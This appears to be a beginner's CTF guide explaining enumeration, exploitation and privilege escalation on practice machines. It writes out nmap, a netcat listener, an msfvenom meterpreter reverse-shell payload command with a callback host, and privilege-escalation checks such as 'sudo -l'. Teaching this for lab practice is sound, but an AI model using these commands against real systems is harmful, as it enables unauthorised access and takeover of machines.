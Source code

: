 # Introduction
A beginner's guide to Pwn Challenges

Pwning is a term derived from gaming, referring to dominating or defeating someone or something. In cybersecurity, pwning refers to completely hacking a machine, typically upto the root level.<br/>
These challenges demand that a hacker have knowledge on computer systems and how to exploit various flaws in the security system such as security misconfigurations, usage of outdated programs and improper control of access. These types of challenges provide a variety of virtual machines to practice various paradigms and principles of Ethical Hacking and Penetration testing.

These machines can be pwned by following the basic steps of Ethical Hacking: <br/>
1. Enumeration
2. Exploitation
3. Privilege Escalation

## Enumeration
This step is probably the most crucial step and will determine the difficulty of the rest of the challenge to come. It primarily involves scanning a given server or a machine for open ports and finding out information about thr services running on these ports.<br/>

This can be achieved through the use of various tools, the most popular one being **nmap**. <br/>
A command in nmap would look something like this: <br/>
```bash
nmap -sT -sC -oA 10.10.1.2
```
<br/>

This will scan the 1000 most used ports on the machine and run default scripts on each port. This could output something as follows<br/>
<br/>
![Nmap Scan](https://media.geeksforgeeks.org/wp-content/uploads/20220704165316/connectss.jpg)

<br/>
After this we explore the programs running on various ports, searching for different types of security flaws that can be exploited in order to gain access to the machine.

## Exploitation
Exploitation refers to exploiting the vulnerabilities found through enumeration. This can usually be found through **known vulnerabilities (CVEs)** of the components running on the machine.<br/>
</br>
With respect to pwnable machines, these typically involve some form of credential disclosure or an RCE (Remote Code Execution) vulnerability which gives access to a reverse shell, allowing us to directly run code on the machine. Vulnerabilities can also take the form of malicious file uploads, which allow the hacker to upload a malicious file which will be run on the target machine, providing access to the reverse shell on the machine.

Some tools that can be used for exploitation include the **Metasploit Framework**, or **msfvenom** which is a tool for generating malicious payloads.


![Metasploit Framework](https://www.imperva.com/learn/wp-content/uploads/sites/13/2022/04/Screen-Shot-2022-04-03-at-14.41.09.png)

Tools like **netcat** allow us to listen for connection from machines, allowing the spawning of a reverse shell. A netcat command looks like this:<br/>
```console
netcat -lvnp 4444
``` 


Tools like msfvenom can be used to generate malicious payloads that allow the hacker to run various types of shells like **meterpreter**, standard **reverse tcp** or **bind shells** and many more. <br/>
```console 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.123.234 LPORT=4444 -f out > shell.out
```

The above command generates a **meterpreter** shell for linux distributions based on the x86 architecture. This will be uploaded to the target machine, which will allow us to intercept the reverse shell using the metasploit framework. From here, if possible we can extract the user credentials of the machine, allowing us to connect to the machine via **ssh**.

After this step, in the context of CTFs the hacker can now find the user flag.


## Privilege Escalation
Privilege Escalation refers to the act of elevating privileges after gaining access, from a standard user to root. Gaining root privileges allows a hacker to completely take control of the system, extract any type of data or modify the system in any way.

The first step of privilege escalation is to identify what scripts can be run by a standard user with root privileges. Usually these scripts will also allow some type of code execution.
This can be achieved by using the following command:

```bash
sudo -l
```

This is the most ambiguous part of the hacking process, as there are infinetly many ways to escalate privileges from a standard user to root. However, some Privilege Escalation vectors can be automatically found using tools like **linpeas**.

If you are using the metasploit framework to gain access to the machine through a meterpreter shell, we can also try and use the `getsystem` command to try some standard privilege escalation exploits.

![](https://tbhaxor.com/content/images/2021/08/image-66.png)

Once you escalate your privileges, the challenge is complete, because all files are accessible and the system is said to be completely pwned.
